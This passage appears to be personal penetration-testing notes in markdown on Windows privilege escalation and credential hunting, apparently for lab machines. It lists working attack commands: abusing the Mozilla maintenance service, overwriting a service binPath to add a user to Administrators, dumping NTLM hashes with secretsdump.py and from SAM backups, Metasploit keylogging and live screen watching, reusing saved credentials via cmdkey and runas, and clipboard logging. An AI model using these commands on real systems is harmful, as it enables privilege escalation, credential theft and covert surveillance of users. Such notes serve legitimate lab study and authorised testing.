 ```bash
takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
sc.exe start MozillaMaintenance
```

Note: Hard link exploitation has been mitigated in recent Windows updates.

#### Print Operators

See SeLoadDriver privilege

##### Server Operators

- Full Services Access  → BinPath Overwrite: add yourself to Administrators

	1. Find a service run by Local system

	2. Add yourself to administrator 

		```cmd
		sc config AppReadiness binPath= "cmd /c net localgroup Administrators [USER] /add"
		sc start AppReadiness
		```

	3. Restart

	4. Retrieve NTLM Passwords (or other):

		```cmd
		secretsdump.py server_adm@10.129.43.9 -just-dc-user Administrator
		```

#### Organization Management (AD)
&rarr; GenericAll over the Organizational unit `Microsoft Exchange Security Groups`, which contains the group `Exchange Windows Permissions`.
## Credential Hunting

- Default Listing Command -> `dir /a /r`
### Non-default folders
Look in:
- `C:\`
- User's homes
- Program Files

### SAM Repair

  - `C:\Windows\Repair\[SAM/SYSTEM]`
  - Dump Hashes if Readable
### Shell Logging
- keylogging (Metasploit)
	-  `keyscan_start` -> `keyscan_dump`
	- `screenshare` ->  Watch the remote user's desktop in real-time
- CMDKey
	  1. `cmdkey /list`
	  2. If Interactive: `runas /savecred /user:[USER] [COMMAND]`
- Clipboard (copy-paste)
  - Native: `Get-Clipboard`
  - Monitor the clipboard (if there is a logged in user): 
                	`Invoke-ClipboardLogger` from [Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1) in `~/TOOLS/PRIVESC_WINDOWS`
